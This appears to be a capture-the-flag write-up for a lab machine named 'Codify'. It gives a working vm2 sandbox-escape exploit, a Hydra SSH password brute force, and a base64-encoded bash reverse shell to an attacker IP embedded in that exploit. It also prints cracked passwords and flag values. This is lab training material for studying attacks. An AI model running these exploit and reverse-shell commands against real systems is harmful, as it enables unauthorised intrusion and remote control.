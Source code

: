 # Codify

## Initial Scan

```nmap
sudo nmap -T4 -v 10.129.82.199
sudo nmap -T4 -Pn -p 22,80,3000 -sV -sC -v 10.129.82.199 -oA Codify
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## HTTP

Had to edit the host file to get the Webpage

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Checking out their About Us page

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Looking around for VM2 CVE's, found [this article on snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) about RCE with VM2 after seeing a couple others. Testing the other PoC's I didn't get anywhere until I found this one. We can run commands on the host bypassing the VM.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -al").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

whoami shows us the `svc` user. Also looking at `/etc/passwd` we see an additional user, `joshua`&#x20;

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

### BruteForce

Trying to run Hydra against the user joshua for a password

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

`joshua:spongebob1`

### Obtaining shell

Working to get a shall as svc. Looking around for reverse shell, I found [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

```bash
bash -i >& /dev/tcp/10.10.14.53/1234 0>&1
```

Running it normally didn't work so I encoded it

```
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash"
```

Full command

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

## Foothold

We have shell as svc

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Seeing what permissions we have

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## User Flag

After getting into shell from the SVC user, I got Joshuas password with hydra.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

User flag: `c53cdd4688463871ba3f4020ab6f3ccb`

## Priv Esc

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We have run the note of "User joshua may run the following commands on codify: (root) /opt/scripts/mysql-backup.sh" So looking at the shell file

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Running that as root as get

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Get [PSPY](https://github.com/DominicBreuker/pspy) Initiate another SSH session. Get pspy64 onto the target machine, run it, then run the `/opt/scripts/mysql-backup.sh` script

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Root pass: `kljh12k3jhaskjh12kjh3`

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Root flag: `4e43f866588b3b3433196af3cef8b768`

